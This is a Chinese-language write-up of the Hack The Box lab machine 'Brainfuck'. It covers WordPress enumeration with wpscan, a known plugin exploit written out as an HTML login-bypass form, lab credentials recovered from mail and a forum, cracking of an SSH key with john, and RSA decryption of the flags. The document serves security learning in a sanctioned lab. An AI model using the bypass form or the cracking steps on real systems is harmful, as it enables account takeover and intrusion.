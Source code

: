 # Brainfuck

> victim: 10.10.10.17

## 扫描分析

有443端口，结合扫描信息，需要在`/etc/hosts`添加以下内容 

```
10.10.10.17	www.brainfuck.htb brainfuck.htb sup3rs3cr3t.brainfuck.htb
```

## HTTPS分析

简单搜索后发现两个地址

- brainfuck.htb(www.brainfuck.htb)
  - WordPress
- sup3rs3cr3t.brainfuck.htb
  - Flarum

添加hosts后，访问`brainfuck.htb`

## brainfuck.htb

> https://brainfuck.htb/

www.brainfuck.htb也重定向到这里，简单一看就知道它是WordPress

利用`wpscan`进行扫描

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
# 禁用证书检查
```

EDB搜索：wp support plus responsive ticket system 7.1.3

- [ WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation](https://www.exploit-db.com/exploits/41006)
- [WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection](https://www.exploit-db.com/exploits/40939)

枚举用户

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u
```

通过已有EXP进行PE，可以登录任意账号

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

成功登录administrator，也可以登录admin了

admin是wordpress管理员，成功获得第一个立足点

打开`Setting`，找到邮件配置

- account
  - orestis@brainfuck.htb
- username
  - orestis
- password
  - kHGuERB29DNiNE

## SMTP信息收集

使用上述信息连接邮件服务器，可使用`evolution`

在邮件中获取到论坛账号

```
Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
```

- username
  - orestis
- password
  - kIEnnfEKJ#9UmdO

## sup3rs3cr3t.brainfuck.htb

> https://sup3rs3cr3t.brainfuck.htb/

进去后是一个Flarum论坛，用收集到的信息进行登录

登录后看到隐藏帖子，有一些信息

### Posts - SSH Access

可以找到维吉尼亚密码

```
Orestis - Hacking for fun and profit
```

### Posts - Key

内容似乎被加密了，简单推测是凯撒，试了一下不对，解释说是维吉尼亚，解密内容见`flarum chat.md`

得到id_rsa私钥但是貌似有密码，Orestis说要爆破

## RSA

爆破私钥

```bash
# 将ssh转换为john爆破格式
locate ssh2john #找到脚本位置
python /usr/share/john/ssh2john.py id_rsa >john_rsa
sudo john john_rsa -w=/usr/share/wordlists/rockyou.txt
```

找到密码：3poulakia!

连接服务器

```bash
chmod 600 id_rsa
ssh -i id_rsa orestis@10.10.10.17
```

成功连接，拿到user.txt

```
2c11cfbc5b959f73ac15a3310bd097c9
```

## PrivilegeEscalation

家目录下的文件

- encrypt.sage
- output.txt
- debug.txt

可以知道是一个加密过程，需要进行解密

### RSA

通过debug.txt知道pqe

通过output.txt可以知道密文

非常简单的RSA解密，所有因子都有了，可以直接解

代码见`rsa_decode.py`

得到原文为

```
24604052029401386049980296953784287079059245867880966944246662849341507003750
```

先转为16进制再转换为字符串即可

CyberChef：

```
To Base(16) -> From Hex
```
得到
```
6efc1a5dbb8904751ce6566a305bb8ef
```

